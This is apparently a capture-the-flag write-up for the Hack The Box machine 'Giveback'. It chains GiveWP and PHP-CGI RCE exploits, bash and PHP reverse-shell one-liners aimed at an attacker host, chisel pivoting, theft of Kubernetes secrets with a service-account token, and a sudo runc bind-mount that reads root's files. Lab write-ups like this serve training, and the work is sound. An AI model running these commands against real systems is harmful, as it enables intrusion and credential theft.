

---
tags:
  - Linux
  - Medium
  - WordPress
  - WebApp
  - PHP
  - sudo
  - php-cgi
  - runc
  - Kubernetes
  - kubectl
  - wpscan
  - chisel
---


## Port Scan

As always, we first start off with an nmap scan. Looking at the results, we have two ports open: SSH and HTTP

```
# Nmap 7.95 scan initiated Sat Nov  1 20:20:28 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -vv -oA nmap/giveback 10.129.25.72  
Increasing send delay for 10.129.25.72 from 0 to 5 due to 61 out of 203 dropped probes since last increase.  
Increasing send delay for 10.129.25.72 from 5 to 10 due to 11 out of 21 dropped probes since last increase.  
Increasing send delay for 10.129.25.72 from 10 to 20 due to 11 out of 16 dropped probes since last increase.  
Increasing send delay for 10.129.25.72 from 20 to 40 due to 11 out of 13 dropped probes since last increase.  
Increasing send delay for 10.129.25.72 from 40 to 80 due to 11 out of 12 dropped probes since last increase.  
Increasing send delay for 10.129.25.72 from 80 to 160 due to 11 out of 12 dropped probes since last increase.  
Increasing send delay for 10.129.25.72 from 160 to 320 due to 11 out of 11 dropped probes since last increase.  
Increasing send delay for 10.129.25.72 from 640 to 1000 due to 11 out of 11 dropped probes since last increase.  
Nmap scan report for 10.129.25.72  
Host is up, received echo-reply ttl 63 (0.083s latency).  
Scanned at 2025-11-01 20:20:38 GMT for 932s  
Not shown: 998 closed tcp ports (reset)  
PORT   STATE SERVICE REASON         VERSION  
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   256 66:f8:9c:58:f4:b8:59:bd:cd:ec:92:24:c3:97:8e:9e (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCNmct03SP9FFs6NQ+Pih2m65SYS/Kte9aGv3C8l43TJGj2UcSrcheEX2jBL/jbje/HRafbJcGqz1bKeQo1cbAc=  
|   256 96:31:8a:82:1a:65:9f:0a:a2:6c:ff:4d:44:7c:d3:94 (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICjor5/gXrTqGEWiETEzhgoni1P2kXV3B4O2/v2SGnH0  
80/tcp open  http    syn-ack ttl 62 nginx 1.28.0  
|_http-favicon: Unknown favicon MD5: 000BF649CC8F6BF27CFB04D1BCDCD3C7  
|_http-title: GIVING BACK IS WHAT MATTERS MOST &#8211; OBVI  
|_http-server-header: nginx/1.28.0  
| http-methods:    
|_  Supported Methods: GET HEAD  
|_http-generator: WordPress 6.8.1  
| http-robots.txt: 1 disallowed entry    
|_/wp-admin/  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Read data files from: /usr/share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
# Nmap done at Sat Nov  1 20:36:10 2025 -- 1 IP address (1 host up) scanned in 943.05 seconds
```

Note that there is also a port open on 30686 which is a Kube Proxy health check endpoint. It isn't relevant for the solving of this box, but just acts as an additional pointer that Kubernetes may be involved.

## User

### Enumerating with WPScan

Upon navigating to the web app, it tries to redirect us to `giveback.htb`, so we add that to our `/etc/hosts` file. Looking at the web page, it appears to be some kind of donations website. At the bottom, we can see that this is a WordPress site.


To do some enumeration on the box, I ran `wpscan` on the web page to see what kind of plugins might be in use:

`wpscan --url http://giveback.htb -e ap`

Among the results is an interesting hit on a plugin `GiveWP`, listing a version of `v3.14.0`.

```
...
[+] give  
| Location: http://giveback.htb/wp-content/plugins/give/  
| Last Updated: 2025-10-29T20:17:00.000Z  
| [!] The version is out of date, the latest version is 4.12.0  
|  
| Found By: Urls In Homepage (Passive Detection)  
| Confirmed By:  
|  Urls In 404 Page (Passive Detection)  
|  Meta Tag (Passive Detection)  
|  Javascript Var (Passive Detection)  
|  
| Version: 3.14.0 (100% confidence)  
| Found By: Query Parameter (Passive Detection)  
|  - http://giveback.htb/wp-content/plugins/give/assets/dist/css/give.css?ver=3.14.0  
| Confirmed By:  
|  Meta Tag (Passive Detection)  
|   - http://giveback.htb/, Match: 'Give v3.14.0'  
|  Javascript Var (Passive Detection)  
|   - http://giveback.htb/, Match: '"1","give_version":"3.14.0","magnific_options"'
...
```

Lo and behold, by looking through the site, we see a donations page that appears to utilize this plugin at `http://giveback.htb/donations/the-things-we-need`.


### Exploiting GiveWP with CVE-2024-5932

After some Google searching on `GiveWP v3.14.0`, I discovered that this version of the plugin was vulnerable to `CVE-2024-5932`. I then downloaded this [GitHub PoC](https://github.com/EQSTLab/CVE-2024-5932) and was able to get a reverse shell with the following:

`python3 CVE-2024-5932-rce.py -u http://giveback.htb/donations/the-things-we-need/ -c "bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'"`


Upon popping the shell, it looks like we've landed on a Kubernetes pod hosting the WordPress site (confirmed by that earlier exposed port we had found).

### Discovering the Legacy Intranet Site

When looking at the box, there isn't initially that much to see. The WordPress database credentials can be found in `wp-config.php`, but no passwords in it are crackable. There are also mounted K8 secrets in `/secrets`, but don't seem useful for anything.

Finally, after trying a multitude of things, I found that an intranet site was referenced in the environment variables by running `env`:

```
...
WORDPRESS_ENABLE_HTACCESS_PERSISTENCE=no  
WORDPRESS_ENABLE_REVERSE_PROXY=no  
LEGACY_INTRANET_SERVICE_PORT=tcp://10.43.2.241:5000  
WORDPRESS_SMTP_USER=  
WEB_SERVER_TYPE=apache
...
```

We can port forward this with `chisel`. Annoyingly, this pod doesn't have `curl` or `wget`, but we can use `php` creatively to pull it from our box.

`php -r "file_put_contents('/tmp/chisel', file_get_contents('http://<ip>:<port>/chisel'));"`

Then, after setting up our `chisel` server on port 8081, we can port forward to the intranet site with:

`./chisel server -p 8081 --reverse` (host machine)
`./chisel client <ip>:8081 R:5000:10.43.2.241:5000` (pod)

Now, utilizing the port forward, we can see the site by going to our browser on `localhost:5000`. Navigating to the site shows us some sort of internal CMS:


### Exploiting PHP-CGI with CVE-2024-4577

Some brief research on PHP-CGI on CMS systems led me to `CVE-2024-4577`. I honestly wasn't super confident in it, but decided to give it a try anyway. I ended up going with this [GitHub PoC](https://github.com/watchtowrlabs/CVE-2024-4577) and was able to get a reverse shell on the box with the following:

`python3 watchTowr-vs-php_cve-2024-4577.py --target http://localhost:5000/cgi-bin/php-cgi -c "php -r '\$sock=fsockopen(\"<ip>\",9002);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"`

Note that I used the path that points to `php-cgi`. I also ended up using this particular reverse shell with `php` and `/bin/sh` because I noticed there was no `/bin/bash` on the box, but the prior two were. I was able to discover that by modifying the script to print the response to the screen and by doing some enumeration with the `-c` param before getting the shell. In any case, I found myself on a new pod in the cluster:


### Discovering the Kubernetes Service Account

Like the last pod, I did a lot of initial enumeration that came up blank. Nothing seemed interesting in the site configuration or anything. During my search, I remembered that I found some mounted K8 secrets in `/secrets` on the previous pod. So, I tried to use `find` for any similar entries:

`find / -name "*secret*" 2>/dev/null`

While I didn't find more K8 secrets, I happened to stumble upon some service account details.


### Setup to Using the Service Account

In doing some research on what I found, I discovered this [Medium article](https://medium.com/@nosignalrightnow/pentesting-kubernetes-119d5b7aeddc) about a *different* HTB box. In it, I was able to see how I could use these service account details to enumerate permissions and potentially perform some actions.

To set this up, I copied over `ca.crt` and `token` onto my host machine (regular Ctrl + C and Ctrl + V did the trick here). I then was able to see the Kubernetes API endpoint within the environment variables using `env | grep KUBE`:

```
KUBERNETES_PORT=tcp://10.43.0.1:443  
KUBERNETES_SERVICE_PORT=443  
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1  
KUBERNETES_PORT_443_TCP_PORT=443  
KUBERNETES_PORT_443_TCP_PROTO=tcp  
KUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443  
KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_HOST=10.43.0.1
```

Looking here, the Kubernetes API is located at `10.43.0.1:443`. Time to `chisel` again! In this case it was easier as I could actually use `curl` or `wget` on this pod. To forward, I used the following:

`./chisel server -p 8082 --reverse` (host machine)
`./chisel client <ip>:8082 R:8443:10.43.0.1:443` (pod)

Note that I used 8082 here because my previous `chisel` server on the WordPress pod was still active. Lastly, I installed `kubectl` onto my machine to interact with the Kubernetes API.

### Using the Service Account to Read K8 Secrets

Once all the setup was complete, I could finally see what this service account could do. Running the following `kubectl` command allows us to see what permissions are scoped to this service account:

`kubectl auth can-i --list --server https://localhost:8443 --certificate-authority=ca.cert --token=$(cat token)`

This produced the following results:


In the results, I highlighted the interesting line: this tells us we can read K8 secrets. To list them, I ran:

`kubectl get secrets --server https://localhost:8443 --certificate-authority=ca.cert --token=$(cat token)`


Very nice, we see `user-secret-babywyrm` in here. Using `describe`, we can see what kind of data is on the secret:

`kubectl describe secret user-secret-babywyrm --server https://localhost:8443 --certificate-authority=ca.cert --token=$(cat token)`


Finally, to read the secret, we can use the `template` flag and pipe it over to `base64` (as entries listed under "Data" are always base64 encoded):

`kubectl get secrets/user-secret-babywyrm --template={{.data.MASTERPASS}} --server https://localhost:8443 --certificate-authority=ca.cert --token=$(cat token) | base64 -d`


At last, we have the password for `babywyrm`! While we've got this set up though, let's also get the data values for the other secret we saw, `beta-vino-wp-mariadb` (as this will be relevant later).


At last, we can use `ssh` to login to the box as `babywyrm` and get `user.txt`:


## Root

### Discovering /opt/debug

As per my usual first step, I ran `sudo -l` to see if I could run anything as `root`:


Looking at the results, we see that we can run `/opt/debug` as `root`. When trying to execute it, it seems to expect an additional password:


I went through all of the previous passwords, but what ended up working was the `mariadb-password`, but **still base64 encoded**. Why does it take the encoded value? I don't know. Allegedly the box creator intends to patch this so the unencoded value is used, but as of now, the **encoded** `mariadb-root-password` is what works here. In any case, it appears this binary is actually `runc`:



### Using runc to Read Privileged Files

With some research, it looked like `runc` could be used to create new containers that mount privileged files, allowing us to read files in `/root`. Using a combination of [documentation](https://chromium.googlesource.com/external/github.com/docker/runc/+/6672d63ec7a8b19f4915ac0de8811adaf0f3a8a9/README.md) and ChatGPT, the following steps were derived:

#### Creating the Config File

`runc` requires a `config.json` file to understand what to build. Fortunately, a boilerplate can be generated with `runc spec` (or in our case, `sudo /opt/debug spec`).


I then created a new directory `/dev/shm/bundle` and copied `config.json` into that folder. Now for the important part. We need to add an additional mount to the `mounts` configuration. This will allow us to mount our privileged file to the container so we can read its contents. Of course, in this case, we want `/root/root.txt`. So, we add the following to the `mounts` array in `config.json`:

```
{                                                     
     "destination": "/mnt/gimme_root",  
     "type": "bind",         
     "source": "/root/root.txt",                   
     "options": ["ro","rbind"]                     
}
```

Altogether, we get this sequence of steps:


#### Pulling a Busybox Image

We've got `config.json` configured now which is great, but not enough. We also need the image and the base file system for the container to go off of. In our case, we can use a generic `busybox` image. The following will allow us to generate `busybox.tar` which we can then use in our bundle:

```
sudo docker pull busybox  
sudo docker export $(sudo docker create busybox) > busybox.tar
```

These commands will first pull the `busybox` docker image and then save it to a `.tar` file. We can then host this and pull it onto the victim box:


#### Creating rootfs

The last step is creating the `rootfs` directory in our bundle. This is where we use our generated `busybox.tar` file to create our base file system. Since we just copied it into the home directory, we can use the following commands to build out the `rootfs` directory:

```
mkdir /dev/shm/bundle/rootfs
cd /dev/shm/bundle/rootfs
tar -xf ~/busybox.tar
```

If you did it right, it should look something like this:


#### Creating the Container and Reading the File

At last, our setup is complete. `cd` back into `/dev/shm/bundle` where `config.json` is located and build the container, which should automatically drop us into a shell:

`sudo /opt/debug run bad-container`

After dropping into the shell, we can read `root.txt` by navigating to the mount we configured in `config.json`:


### Post Root

Allegedly, the mounting `root.txt` strategy was not the intended method and the actual method is to exploit a `runc` CVE that lets you overwrite on a mount. This is what the box creator `babywyrm` had to say:


I may try to come back to this box and try it this way, we'll see ;). At a quick glance, is *probably* `CVE-2024-21626`.
